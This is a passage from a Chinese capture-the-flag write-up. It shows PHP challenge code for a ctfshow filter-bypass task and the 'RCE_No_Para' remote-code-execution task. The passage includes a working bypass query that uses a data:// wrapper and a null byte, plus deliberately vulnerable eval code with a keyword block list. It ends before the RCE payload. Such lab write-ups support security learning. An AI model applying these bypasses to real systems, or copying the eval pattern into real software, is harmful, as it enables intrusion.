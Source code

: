 

```php
<?php 
show_source(__FILE__);

if (!(stripos($_GET['filename'],'.') || ($_GET['id']!=0) || (strlen($_GET['content'])<=7) || (!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow")) || substr($_GET['content'],0,1)=='w' || (file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))){
    print("yes");
}

// echo 
// !(
// !(include "flag.php")  ||  
// (!error_reporting(0))  ||  
// stripos($_GET['filename'],'.')  ||      #要有点
// ($_GET['id']!=0)  ||                    #id=0
// (strlen($_GET['content'])<=7)  ||       #长度大于7
// (!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))  ||
// substr($_GET['content'],0,1)=='w'  ||
// (file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow")
// )
// ?
// $flag
// :
// str_repeat(highlight_file(__FILE__), 0);

// ?filename=data://text/plain,welcome2ctfshow&id=0&content=%00waaaaaaa
```





## 长安战疫

### RCE_No_Para

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    if(!preg_match('/session|end|next|header|dir/i',$_GET['code'])){
        eval($_GET['code']);
    }else{
        die("Hacker!");
    }
}else{
    show_source(__FILE__);
}

?>
```

常用的payload都废掉了，想办法rce：
